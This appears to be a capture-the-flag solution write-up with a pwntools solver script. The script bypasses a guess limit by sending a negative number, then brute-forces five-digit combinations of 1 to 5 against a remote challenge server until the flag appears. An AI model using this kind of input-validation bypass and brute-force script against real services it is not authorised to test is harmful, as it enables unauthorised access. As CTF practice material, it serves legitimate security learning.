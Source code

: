 Solution: 
- Initally send any negative number for infinite chances
- Try all possible combinations of 1 to 5 , in which one of them will be successful and provides the flag

Solver Script
```python
from pwn import *
from icecream import ic
import itertools

context.log_level = "debug"

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    return remote("143.110.176.49",1024)


def sl(a): return r.sendline(a)
def s(a): return r.send(a)
def sa(a, b): return r.sendafter(a, b)
def sla(a, b): return r.sendlineafter(a, b)
def re(a): return r.recv(a)
def ru(a): return r.recvuntil(a)
def rl(): return r.recvline()
def i(): return r.interactive()

r = start()

ru(b'were:')

a = rl().decode().strip().split(' ')

ic(a)

sl("-1")

def generate_combinations():
    for combo in itertools.product('12345', repeat=5):
        yield ' '.join(combo)

for combination in generate_combinations():
    sl(combination.encode())
    response = rl()
    if 'BSMumbai' in response.decode().strip():
        ic(response.decode().strip())
        ic(combination)
        break

r.interactive()
```
